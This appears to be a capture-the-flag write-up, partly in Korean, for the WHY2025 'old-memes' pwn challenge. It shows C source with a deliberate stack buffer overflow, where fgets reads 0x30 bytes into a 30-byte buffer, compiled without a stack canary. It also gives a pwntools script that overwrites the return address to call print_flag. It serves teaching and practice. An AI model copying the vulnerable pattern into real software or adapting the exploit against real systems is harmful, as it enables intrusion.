 # old-memes - WHY2025
## Challenge Info
- Date: 2025
- CTF Name: WHY2025
- Category: pwn
- Difficulty (subjective): easy
- Points:
- Provided Files: old-memes.c
- tools:
## Brief Description
Always want to do a bufferoverflow? Here is your chance! Ideal for first timers, you even get the source code!
## Initial Analysis
### Environment
``` sh
$ gcc -m32 -fno-stack-protector -o old-memes old-memes.c
```
### Code
``` c
/* Old Memes Never Die 
 * compile without protection, because protection is for Tonies!
 * gcc -m32 -fno-stack-protector -o old-memes old-memes.c
 */

#include <stdio.h>
#include <string.h>


int print_flag() {
    FILE *fptr = fopen("/flag", "r");
    if (fptr == NULL){
        return 1;
    }
    
    char flag[39];
    while (fgets(flag, sizeof(flag), fptr) != NULL){
        printf("F* YOU and your flag: %s !!!", flag);
    }
    fclose(fptr);
    return 0;
}

int ask_what() {
    char what[8];
    char check[6] = "what?";

    printf("\n\nWhat is your name?\n> ");
    fgets(what, sizeof(what), stdin);
    what[strcspn(what, "\r\n")] = 0;
    if (strcmp(check, what) != 0)
        return 1;
    return 0;
}

int ask_name() {
    char name[30];
    printf("\n\nWhat is your name?\n> ");
    fgets(name, 0x30, stdin);
    name[strcspn(name, "\r\n")] = 0;
    printf("F* YOU %s!\n", name);
}

int main() {
    setbuf(stdout, 0);
    printf("(do with this information what you want, but the print_flag function can be found here: %p)\n", print_flag);

    if(ask_what())
        return 1;
    ask_name();
    return 0;
}
```
## Vulnerability
### BOF(Buffer Overflow)
``` c
int ask_name() {
    char name[30];
    printf("\n\nWhat is your name?\n> ");
    fgets(name, 0x30, stdin);
    name[strcspn(name, "\r\n")] = 0;
    printf("F* YOU %s!\n", name);
}
```
`name`의 크기는 30인 반면 `fgets`로 읽어오는 크기는 0x30으로 18byte 넘어서 덮어쓸 수 있다.  
## Exploit
### Strategy
스택 카나리가 비활성화 되어 있어 BOF로 ra를 덮어쓸 수 있다. 따라서 `ask_name` 함수의 ra를 `print_flag`의 주소로 덮어쓰면 flag를 획득할 수 있다. (18byte로 덮어쓰기에 충분함)
### Exploitation Steps
### Stack Frame of main
| Variable Name | Offset from EBP |
| --- | --- |
### payload
``` python
from pwn import *

p = remote('old-memes-never-die.ctf.zone', 4242)

# print_flag
p.recvuntil(b'do with this information what you want, but the print_flag function can be found here: ')
printf_flag = int(p.recvn(10), 16)
log.info(f'printf_flag = {hex(printf_flag)}')

# ask_what
p.sendlineafter(b'> ', b'what?')

# ask_name
payload = b''
payload += b'A' * 0x26 + b'B' * 0x4
payload += p32(printf_flag)
p.sendlineafter(b'> ', payload)
p.recvuntil(b'F* YOU and your flag: ')
flag = p.recvuntil(b' !!!')
log.info(f'flag: P{str(flag)}')

# interactive
p.interactive()
```